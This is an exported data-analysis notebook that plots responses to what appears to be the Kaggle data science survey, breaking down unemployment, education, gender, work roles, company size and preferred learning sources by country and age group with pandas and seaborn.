

In [0]:
ax = pivot.plot(kind='bar', figsize=(40,20),fontsize=20)
ylab = ax.set_ylabel('Number of paticipants Unemployed',fontsize=20)
xlab = ax.set_xlabel('Country',fontsize=20)
#stacked=True,



In [0]:
###AREAS OF INTERESTED UNEMPLOYED NUMBER IN THE AGE-GROUPS 25-29,30-34,35-39,40-44,45-49,
unemployed.groupby(['Q3', 'Q1']).size().unstack().plot(kind='bar', stacked=True,figsize=(20,10))



In [0]:
####Check unemployed rates by highest level of education attained of participants
ax = unemployed.groupby(['Q4', 'Q1']).size().unstack().plot(kind='bar', stacked=True,figsize=(20,10))
ax.set_xlabel("Professional degree attained by participant",fontsize=15)
ax.set_ylabel("Number of Unemployed Participants by Age",fontsize=15)
ax.legend(title="Age-Groups of participants")



In [0]:
#Number of unemployed people giving the survey by country
ax = unemployed.groupby(['Q3', 'Q4']).size().unstack().plot(kind='bar', stacked=True,figsize=(20,10))
ax.set_xlabel("Country of participant",fontsize=15)
ax.set_ylabel("Number of unemployed participants by acquired level of education",fontsize=15)
ax.set_title("Proportion of acquired levels of education by unemployed participants across different countries")
ax.legend(title = "List of levels of education of participants")



In [0]:
#Distribution of various levels of education across different countries
ax = req.groupby(['Q3', 'Q4']).size().unstack().plot(kind='bar', stacked=True,figsize=(20,10))
ax.set_xlabel("Countries",fontsize=15)
ax.set_ylabel("Number of People posessing a certain level of education",fontsize=15)
ax.set_title("Proportion of level of education of different participants across the countries",fontsize=20)
ax.legend(title="Professional degree attained by participant")

In [0]:
#Gender<--->Education Level proportions
r = req[(req['Q2']=="Male")|(req['Q2']=="Female")]

In [0]:
re = r[r['Q4'] != 0]



In [0]:
re.groupby(['Q4', 'Q2']).size().unstack().plot(kind='bar', stacked=True,figsize=(20,10))
ax.set_xlabel("Level of education attained",fontsize=15)
ax.set_ylabel("Number of People posessing a certain level of education distributed by gender",fontsize=15)
ax.set_title("Gender distribution of Highest level of education attained",fontsize=20)
ax.legend(title="Gender of participant")



In [0]:
#Distribution of gender and profession
ax = req.groupby(['Q5', 'Q2']).size().unstack().plot(kind='bar', stacked=True,figsize=(20,10))
ax.set_xlabel("Current Role of Participant",fontsize=15)
ax.set_ylabel("Number of People distributed by Gender",fontsize=15)
ax.set_title("Gender distribution of Work Roles of Participants",fontsize=20)
ax.legend(title="Gender of participant")



In [0]:
##############ABOVE PLOTS CAN BE GENERATED FOR EACH COUNTRY ???
l = req.Q3.unique()
for num in l:
    if num in ['India','']:
        m = req[req['Q3']==num]
        ax = m.groupby(['Q5', 'Q2']).size().unstack().plot(kind='bar', stacked=True,figsize=(20,10))
        ax.set_xlabel("Current Role of Participant",fontsize=15)
        ax.set_ylabel("Number of People distributed by Gender",fontsize=15)
        ax.set_title("Gender distribution of Work Roles of Participants in {}".format(num),fontsize=20)
        ax.legend(title="Gender of participant")

In [0]:
l = req.Q3.unique()
for num in l:
    m = req[req['Q3']==num]
    ax = m.groupby(['Q4', 'Q2']).size().unstack().plot(kind='bar', stacked=True,figsize=(20,10))
    ax.set_xlabel("Current Role of Participant",fontsize=15)
    ax.set_ylabel("Number of People distributed by Gender",fontsize=15)
    ax.set_title("Gender distribution of Work Roles of Participants in {}".format(num),fontsize=20)
    ax.legend(title="Gender of participant")

Output hidden; open in https://colab.research.google.com to view.

In [0]:
################GENDER IMBALANCED CATEGORY <----> DEVELOP INSIGHTS BASED ON BALANCED FEATURE <---> DISTRIBUTION OF WORK PROFESSIONS AND SIZE OF COMPANY
l = req.Q3.unique()
for num in l:
    m = req[(req['Q3']==num)&(req['Q6']!=0)&(req['Q5']!=0)]
    ax = m.groupby(['Q6', 'Q5']).size().unstack().plot(kind='bar', stacked=True,figsize=(20,10))
    ax.set_xlabel("Current Size of Company Employed In",fontsize=15)
    ax.set_ylabel("Number of People distributed by work position",fontsize=15)
    ax.set_title("Work Roles of Participants in {} distributed by Size Company".format(num),fontsize=20)
    ax.legend(title="Work Role of participant")

Output hidden; open in https://colab.research.google.com to view.

In [0]:
###########HAVE TO ANALYZE OTHER RESPONSES FOR ROLES <---> what profession exists more with a particular company size<---> focus on what softwares/ technologies are used
#******compare the level of work experience and the advancement in technologies and softwares used across different countries*********#

In [0]:
#####Compare the tools and softwares used by data scientists, 
##############ABOVE PLOTS CAN BE GENERATED FOR EACH COUNTRY ???
l = req.Q3.unique()
for num in l:
    m = req[req['Q3']==num]
    ax = m.groupby(['Q4', 'Q2']).size().unstack().plot(kind='bar', stacked=True,figsize=(20,10))
    ax.set_xlabel("Highest Education Attained By Participant",fontsize=15)
    ax.set_ylabel("Number of People distributed by Gender",fontsize=15)
    ax.set_title("Gender distribution of Education of Participants in {}".format(num),fontsize=20)
    ax.legend(title="Gender of participant")

Output hidden; open in https://colab.research.google.com to view.

In [0]:
s = ['Q12_Part_1','Q12_Part_2','Q12_Part_3']
sources = ['Q12_Part_2','Q12_Part_3','Q12_Part_4','Q12_Part_5','Q12_Part_6','Q12_Part_7','Q12_Part_8','Q12_Part_9','Q12_Part_10','Q12_Part_11','Q12_Part_12']
l = list()
for i in sources:
    df = req.groupby([i]).count().loc[:,:'Time from Start to Finish (seconds)'].reset_index()
    df.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True)
    df.rename(columns = {i:'Source_for_learning'}, inplace = True)
    l.append(df)

In [0]:
fav_sources_to_learn_from = pd.concat(l)

In [0]:
fav_sources_to_learn_from = fav_sources_to_learn_from[fav_sources_to_learn_from['Source_for_learning']!=0]

In [0]:
fstlf = fav_sources_to_learn_from.sort_values('Frequency',ascending=False)

In [0]:
f = fstlf.reset_index(drop=True)
f

,Source_for_learning,Frequency
0,"Kaggle (forums, blog, social media, etc)",10750
1,"Blogs (Towards Data Science, Medium, Analytics...",9906
2,"YouTube (Cloud AI Adventures, Siraj Raval, etc)",7538
3,Journal Publications (traditional publications...,4471
4,"Course Forums (forums.fast.ai, etc)",3755
5,"Reddit (r/machinelearning, r/datascience, etc)",3419
6,"Slack Communities (ods.ai, kagglenoobs, etc)",2412
7,"Podcasts (Chai Time Data Science, Linear Digre...",2075
8,Hacker News (https://news.ycombinator.com/),1804
9,Other,1184




In [0]:
import seaborn as sns
sns.set(style="whitegrid")
fig, ax = plt.subplots(1, 1, figsize=(90,20))
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Source_for_learning", y="Frequency", data=f)
ax.set_title("Distribution of different sources of learning used by our participants ".format(i))
ax.set(xlabel='Source for learning used', ylabel='Frequency')
ax.tick_params(axis = 'both', which = 'major', labelsize = 15)
ax.tick_params(axis = 'both', which = 'minor', labelsize = 15)

In [0]:
l = req.Q3.unique()
sources = ['Q12_Part_2','Q12_Part_3','Q12_Part_4','Q12_Part_5','Q12_Part_6','Q12_Part_7','Q12_Part_8','Q12_Part_9','Q12_Part_10','Q12_Part_11','Q12_Part_12']
l = list()
for i in sources:
    df = req.groupby([i,'Q3']).count().loc[:,:'Time from Start to Finish (seconds)'].reset_index()
    df.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True)
    df.rename(columns = {i:'Source_for_learning'}, inplace = True)
    l.append(df)

In [0]:
sources_to_learn_by_country = pd.concat(l)

In [0]:
sources_to_learn_by_country = sources_to_learn_by_country[sources_to_learn_by_country.Source_for_learning!=0]

In [0]:
stl = sources_to_learn_by_country.reset_index(drop=True)
stl

,Source_for_learning,Q3,Frequency
0,Hacker News (https://news.ycombinator.com/),Algeria,5
1,Hacker News (https://news.ycombinator.com/),Argentina,6
2,Hacker News (https://news.ycombinator.com/),Australia,22
3,Hacker News (https://news.ycombinator.com/),Austria,6
4,Hacker News (https://news.ycombinator.com/),Bangladesh,12
...,...,...,...
639,Other,Turkey,10
640,Other,Ukraine,7
641,Other,United Kingdom of Great Britain and Northern I...,31
642,Other,United States of America,202


In [0]:
#####REQUIRED COUNTRY LIST TO ANALYZE COMPARISON OF PREFERENCE OF DIFFERENT SOURCES OF LEARNING
countries = req.Q3.unique()
for i in countries:
    d = stl[stl['Q3']==i]
    dr = d.reset_index(drop=True)
    sns.set(style="whitegrid")
    fig, ax = plt.subplots(1, 1, figsize=(90,20))
    tips = sns.load_dataset("tips")
    ax = sns.barplot(x="Source_for_learning", y="Frequency", data=dr)
    ax.set_title("Distribution of different sources of learning preferred by participants in {}".format(i),fontsize=30)
    ax.set(xlabel='Source for learning used', ylabel='Frequency')
    ax.tick_params(axis = 'both', which = 'major', labelsize = 15)
    ax.tick_params(axis = 'both', which = 'minor', labelsize = 15)

#IRELAND --> Increased Youtube
#SLACK Communities ---> Russia
#SAUDI, ALGERIA--> Youtube over kaggle

Output hidden; open in https://colab.research.google.com to view.











...





